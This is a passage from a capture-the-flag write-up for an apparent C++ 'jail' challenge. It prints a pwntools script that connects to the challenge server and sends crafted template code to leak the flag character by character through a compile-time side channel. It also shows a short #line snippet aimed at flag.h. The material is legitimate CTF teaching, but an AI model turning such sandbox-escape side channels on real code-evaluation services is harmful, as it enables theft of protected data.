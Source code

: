 ```cpp
%:line 1 "flag.h"
oogabooga
```


### Intended: Using Templates
Templates was intended approach by the author. Some teams tried variants of the idea I used to side channel the flag but instead using `static_assert`. The author's intended solution involved purely using templates to exfiltrate each character of the flag. It is more efficient than the easier brute force approach me and some other teams used but it is a bit more complicated to set up the templates correctly. The author's intended solution is shown below.

```python
from pwn import *

format = "unsigned    j=0;template<bool    b>using    d=std::bool_constant<b>;using    a=decltype(j);    using    t=d<true>;    using    f=d<false>;template<a    c>a    r(t){return(a)(c-1);}template<a    c>a    r(f){return    r<c+1>(d<sizeof(Jail<void>::lock<c,%d>::k.i)    ==    4>());}a    operator&(Prisoner){return(r<0>(f())+(j++));}"

for i in range(0, 53):
    r = remote("ctf.b01lers.com", 7170)
    code = format % i
    r.sendline(code.encode())
    character = chr(int(r.recvall().split(b" ")[-1], 16) - 3)
    print(character)
    r.close()
```
